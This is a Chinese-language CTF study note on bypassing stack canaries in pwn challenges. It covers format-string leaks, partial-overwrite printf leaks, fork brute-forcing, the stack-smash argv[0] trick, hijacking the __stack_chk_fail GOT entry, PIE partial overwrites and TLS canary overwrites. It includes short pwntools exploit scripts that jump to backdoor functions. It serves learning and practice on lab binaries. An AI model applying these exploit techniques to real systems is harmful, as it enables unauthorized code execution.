






参考:
[canary各种姿势](https://xz.aliyun.com/t/4657?page=5&time__1311=eqGxn7emqxRQDCDlrmq0%3DwK0I%3D7KG8tKbeD&alichlgref=https%3A%2F%2Fxz.aliyun.com%2Ft%2F4657%3Fpage%3D5#toc-1)
[题目附件](https://n0zom1z0.lanzouj.com/iRO1O1uo5gif)


canary是一个很重要的点 各种题目都可以开canary 相关技巧都要会

# 格式化字符串漏洞泄露canary
最常见的题型
格式化字符串漏洞看偏移:


如果没限制长度可以 `AAAAAAAA -%08x -%08x ...` 来数
有限制长度就用 `%8$p` 这种来试

得到输入的offset gdb调试看看canary的位置即可


这样就可以 `%8$p` 泄露canary


# 关于栈溢出+printf打印泄露canary
要注意 64位canary的低字节通常为`\x00`
所以要覆盖低字节绕过**printf的截断**输出更改末字节后的canary
而我们要写的是正确的canary 所以后面再改回来(低字节改为`\x00`)即可

但有些题后面是用strcpy栈溢出 那么就不能直接写正确的canary(**`\x00`会被strcpy截断** ...)
就利用输入到canary的首地址 然后sendline(送一个换行符等价于`\x00`)即可把canary还原

[典型例题](https://buuoj.cn/challenges#[DASCTF%20X%20CBCTF%202023%EF%BD%9C%E6%97%A0%E7%95%8F%E8%80%85%E5%85%88%E8%A1%8C]GuestBook)
[My_WP](https://www.cnblogs.com/NozoMizo/articles/18114175)

# fork进程爆破canary
fork进程特征具有canary不变性(父子所有内存段都相同) 对canary的每一位循环爆破
结合canary的低byte为`\x00` 爆破剩余三个字节


结合题目看


然后fun函数里面有栈溢出 可溢出5个字节
而且程序有后门 所以只要绕过canary就可以getshell
但本地调试看不了canary???
回到题目 由于是fork 线程 已知canary末字节`\x00`
所以我们可以逐字节爆破 爆破方法就是逐步溢出
第一次溢出byte1 第二次溢出byte2...
由v2是`[ebp-C]`知道canary就在`[ebp-C]`处
exp就是上面的图 (然而本地没打通233...)
等到碰到远程的fork canary的题再来总结


# stack smash
花式栈溢出...
利用条件 **glibc-2.31之前**
## 原理
在程序加了 canary 保护之后，如果我们读取的 buffer 覆盖了对应的值时，程序就会报错，而一般来说我们并不会关心报错信息。
而 stack smash 技巧则就是利用打印这一信息的程序来得到我们想要的内容。
这是因为在程序启动 canary 保护之后，如果发现 canary 被修改的话，
程序就会执行 __stack_chk_fail 函数来打印`argv[0]`指针所指向的字符串，正常情况下，这个指针指向了程序名:
代码：
```c
void __attribute__ ((noreturn)) __stack_chk_fail (void)
{
  __fortify_fail ("stack smashing detected");
}
void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminated\n",
                    msg, __libc_argv[0] ?: "<unknown>"); // <= here
}
```

如果我们能利用栈溢出覆盖`argv[0]`为我们想要输出字符串的地址
在`__fortify_fail`函数就会输出信息

glibc-2.31之后:
```c
#include <stdio.h>

void
__attribute__ ((noreturn))
__fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (do_abort, "*** %s ***: terminated\n", msg); // <= no __libc_argv[0]
}
libc_hidden_def (__fortify_fail)
```


[典型例题](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/stacksmashes/32c3-CTF-readme)
[wiki-wp](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/fancy-rop/#32c3-ctf-readme)

题目分析:
开了canary和fortify 而且printf用的`_printf_chk` 所以只能打ssp
想要打印flag

但是程序对这处内存执行了memset
这里学到一个小trick
**ELF重映射**
:当可执行文件足够小时 不同区段可能进行多次映射 也就是一些区段有副本
我们找其他有flag的地方
```
pwndbg> search PCTF
Searching for value: 'PCTF'
pwn             0x400d20 push rax /* "PCTF{Here's the flag on server}" */
pwn             0x600d20 "PCTF{Here's the flag on server}"
```
找到0x400d20
那就往后溢出(也不能溢出多了调一调就行)全部覆盖为0x400d20
```py
flag = 0x400d20
p.recvuntil("What's your name? ")
payload = p64(flag)*1000
p.sendline(payload)
p.recv()
p.sendline(payload)
```

然而因为本地libc早就改了机制 劫持不了... 又没打通

# 劫持`stack_chk_fail`函数
劫持`stack_chk_fail`函数 控制函数流程
在刚开始未栈溢出时 先把`stack_chk_fail`的got表修改为后门函数地址
然后栈溢出**故意制造**canary错误调用`stack_chk_fail` 从而执行后门函数

[题目](https://n0zom1z0.lanzouj.com/iRO1O1uo5gif)(题目4 bin3)

题目分析:
有格式化字符串漏洞 并且给了后门函数 开了canary 所以可以修改`stack_chk_fail`的got表 然后触发chk_fail来getshell
然后这道题system又是对齐了的...
```py
offset = 6
backdoor = 0x40084E
stk_chk_fail_got = 0x601020

payload = fmtstr_payload(offset,{stk_chk_fail_got:backdoor}) + b'a'*1000
p.recvuntil("It's easy to PWN\n")
p.send(payload)
```


# 开了pie的canary
以64位printf打印为例
canry低位`\x00`是截断符 我们栈溢出把低位覆盖 让printf带出来
再把低位替换回`\x00`
如果开了pie 找找低多少位可以不用改 然后爆破覆盖一下高位的就能控制程序流了

题目分析:
PIE+NX+canary


第一次输入可以覆盖canary低字节为非`\x00`从而打印出canary
第二次输入就可以栈溢出
这里system又要栈对齐...
```py
payload = b'a'*(0x30-0x8) + b'b'
p.recvuntil("Input your Name:\n")
p.send(payload)
p.recvuntil(b'b')
canary = u64(b'\x00' + p.recv()[:7])
success(hex((canary)))

backdoor = 0xA42

payload = b'a'*0x28 + p64(canary) + b'b'*8 + p16(backdoor) # not p64(backdoor) 因为开了pie 我们只覆盖低4字节
p.send(payload)
```


# TLS线程canary
利用ptrace特性 线程中的**canary存储**的地方和TLS与函数的栈很近 所以可以栈上往后覆盖**修改canary**
改了canary就能绕过了
[HGAME2022 WEEK1](https://www.nssctf.cn/problem/1872)
